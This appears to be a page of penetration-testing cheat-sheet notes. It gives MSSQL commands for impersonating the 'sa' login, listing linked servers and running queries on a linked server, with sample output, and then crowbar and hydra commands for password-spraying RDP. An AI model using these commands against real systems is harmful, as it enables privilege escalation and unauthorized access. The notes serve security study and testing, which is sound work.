
#### Impersonating the SA User

```sql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

<mark style="background: #BBFABBA6;">**Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.</mark>

#### Identify linked Servers in MSSQL

```sql
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1 /* Remote Server */
10.0.0.12\SQLEXPRESS                0 /* Linked Server */

(2 rows affected)
```
1: Remote server
0: linked server

#### MSSQL Execute on Remote Server 

```sql
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

(1 rows affected)
```

### <span style="color: blue">RDP </span>

 password spray
```shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

```shell
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

